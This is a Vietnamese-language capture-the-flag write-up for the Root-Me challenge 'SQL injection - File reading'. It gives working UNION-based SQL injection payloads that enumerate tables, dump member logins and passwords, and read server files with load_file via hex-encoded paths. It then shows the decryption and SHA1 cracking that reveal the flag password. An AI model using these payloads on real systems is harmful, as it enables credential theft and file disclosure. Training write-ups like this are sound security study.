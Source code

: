 # Challenge: SQL injection - File reading
## Người làm:   
    Nguyễn Ngọc Trưởng - 19522440
    Thời gian: 
## Link: 
    https://www.root-me.org/en/Challenges/Web-Server/SQL-injection-file-reading

- Bài này ta thấy có 1 form đăng nhập, tuy nhiên trang members có thể dùng url để truy vấn được
<p align="center"><img src="./images/9.1.png"></p>
<p align="center"><img src="./images/9.2.png"></p>

- Thử kiểm tra lỗi ở url truy vấn của trang members bằng cách thêm kí tự ' --> ta thấy thật sự tồn tại lỗi ở đây.
<p align="center"><img src="./images/9.3.png"></p>

- Tiếp tục khai thác như những bài trước chèn thêm `order by 10`
<p align="center"><img src="./images/9.4.png"></p>
--> thử lần lượt ta tìm được giá trị của các cột hiển thị là 4

- thử thêm ` union select 1,2,3,4` để xem hình thức hiển thị của các cột
<p align="center"><img src="./images/9.5.png"></p>

- Vì nó không hiển thị gì nên ta thử sửa trường `id = -1`
<p align="center"><img src="./images/9.6.png"></p>

> ?action=members&id=-1 union select 1,2,3,group_concat(table_name) from information_schema.tables where table_schema = database()
<p align="center"><img src="./images/9.7.png"></p>
--> ta được table: member

> ?action=members&id=-1 union select 1,2,3,group_concat(column_name) from information_schema.columns where table_name = 'member'
<p align="center"><img src="./images/9.8.png"></p>

- OK nó có thể giống như những bài trước, ta sẽ tiến hành mã hóa nó, chuyển `member` về hex thành `276d656d62657227`
> ?action=members&id=-1 union select 1,2,3,group_concat(column_name) from information_schema.columns where table_name = 0x6d656d626572
<p align="center"><img src="./images/9.9.png"></p>

`member_id,member_login,member_password,member_email`

- Lấy username password 
> ?action=members&id=-1 union select 1,group_concat(member_login),3,group_concat(member_password) from member
<p align="center"><img src="./images/9.10.png"></p>

- Đến đây ta đã nhận được thông tin lưu ở password: `VA5QA1cCVQgPXwEAXwZVVVsHBgtfUVBaV1QEAwIFVAJWAwBRC1tRVA==`
- Thử mã hóa nó ở dạng base64 tuy nhiên thì ko được, do vậy có thể nó bị mã hóa,
Đề bài là file reading !!!
- Ta cần lấy ra file php, để biết nó mã hóa những gì 
> ?action=members&id=-1 union select 1,2,3,load_file('/challenge/web-serveur/ch31/index.php')
<p align="center"><img src="./images/9.11.png"></p>

- Vì có lỗi nên ta sẽ chuyển chuỗi `/challenge/web-serveur/ch31/index.php` sang mã hex, `2f6368616c6c656e67652f7765622d736572766575722f636833312f696e6465782e706870`
> ?action=members&id=-1 union select 1,2,3,load_file(0x2f6368616c6c656e67652f7765622d736572766575722f636833312f696e6465782e706870)
<p align="center"><img src="./images/9.12.png"></p>
<p align="center"><img src="./images/9.13.png"></p>

- Phân tích code ta có 
```
$key = "c92fcd618967933ac463feb85ba00d5a7ae52842";
function stringxor($o1, $o2) {
    $res = '';
    for($i=0;$i<strlen($o1);$i++)
        $res .= chr(ord($o1[$i]) ^ ord($o2[$i]));        
    return $res;
}
sha1($_POST['password']) = stringxor($key, base64_decode($data['member_password']))
```
- Chạy code, để nhận được `sha1(password) = 77be4fc97f77f5f48308942bb6e32aacabed9cef`
<p align="center"><img src="./images/9.14.png"></p>

- Dùng công cụ https://md5decrypt.net/en/Sha1/#answer để tìm password
## Kết quả password là `superpassword`